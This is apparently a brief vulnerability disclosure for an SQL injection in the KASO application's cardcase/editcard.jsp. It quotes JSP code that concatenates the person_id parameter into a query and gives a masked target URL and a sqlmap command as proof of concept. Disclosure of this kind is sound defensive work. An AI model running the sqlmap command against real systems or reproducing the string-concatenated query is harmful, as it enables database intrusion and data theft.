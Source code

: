 # KASO cardcase/editcard.jsp Sql Injection


Code

    <%}
    rs.close();
      sql = "select a.classid,a.name,b.popedom from oa_cardclass a,oa_card_popedom b where a.classid=b.classid and b.person_id='"+person_id+"'";  
      rs=DBmenu.executeQuery(sql); 
    %>


Injection：person_id

Injection url: http://xx.xx.xx.xx:8081/cardcase/editcard.jsp?person_id=2&id=1&classid=1


poc:
python .\sqlmap.py -u "http://xx.xx.xx.xx:8081/cardcase/editcard.jsp?person_id=2&id=1&classid=1" --random-agent --dbms=mssql


![sql](https://github.com/user-attachments/assets/7fcdcd69-5cfb-4088-baf7-7172e638fa53)


